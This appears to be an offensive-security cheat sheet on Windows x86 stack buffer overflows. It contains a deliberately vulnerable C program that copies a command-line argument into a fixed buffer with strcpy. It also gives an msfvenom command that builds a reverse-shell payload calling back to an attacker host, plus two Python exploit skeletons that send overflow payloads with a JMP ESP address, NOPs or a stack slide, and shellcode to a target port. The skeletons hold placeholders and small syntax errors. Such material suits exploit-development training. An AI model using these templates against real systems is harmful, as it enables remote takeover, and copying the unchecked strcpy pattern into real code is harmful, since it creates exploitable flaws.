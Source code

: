 # Windows Stack Buffer Overflow

## Stack Buffer Overflow

### Vulnerable Codes

In C the main function is treated as any other function. The main function is called by the OS when the process starts

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
	char buffer[500];
	
	if (argc < 2)
	{
		printf("Error - You must supply at least one argument\n");
		return 1;
	}
	
	strcpy(buffer, argv[1]);
	
return 0;
}

```

Buffer Explained:

* char buffer\[500\]= local variable able to store 500 characters.
* strcpy\(buffer, argv\[1\]\) = copy the contents of the given argument into the buffer character array.

Parameters Explained: 

* int argc = number of arguments passed to the program. 
* \*argv\[\] = array of pointers to the argument "strings" themselves.

More information on argv:

{% embed url="https://stackoverflow.com/questions/16666353/what-does-char-argv-means" %}

_**Why is this Vulnerable?**_

Is vulnerable because it doesn't check the size of the buffer which can overflow the array boundaries.

## x86 Stack Buffer Overflow

### x86 Msfvenom Template

```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.20 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c EXITFUNC=thread
```

### x86 Stack Buffer Overflow Skeleton

#### NOP Skeleton

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Global
target = 10.10.10.10

def exploit():
    # Shellcode in Bytes
    shellcode = (b"<shellcode>")

    # Payload in Bytes
    offset = 1052
    before_eip = b"A"*offset # 1052 A
    eip = pack("<I", <address>) # JMP ESP
    nops = "\x90"*16 # 16 NOPs
    
    payload = before_eip + eip + nops + shellcode
    
    # Socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target, 8080)) # Connect to the target on port 8080
    s.send(payload) # Send the payload
    
    
    
if __name__ == "__main__"
    exploit()
```

#### Stack Slide Skeleton \(Alternative to NOPs\)

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Global
target = 10.10.10.10

def exploit():
    # Shellcode in Bytes
    shellcode = (b"<shellcode>")

    # Payload in Bytes
    offset = 1052
    before_eip = b"A"*offset # 1052 A
    eip = pack("<I", <address>) # JMP ESP
    # SUB ESP, 0x10
    payload = before_eip + eip + b"\x83\xec\x10" + shellcode
    
    # Socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target, 8080)) # Connect to the target on port 8080
    s.send(payload) # Send the payload
    
    
    
if __name__ == "__main__"
    exploit()
```

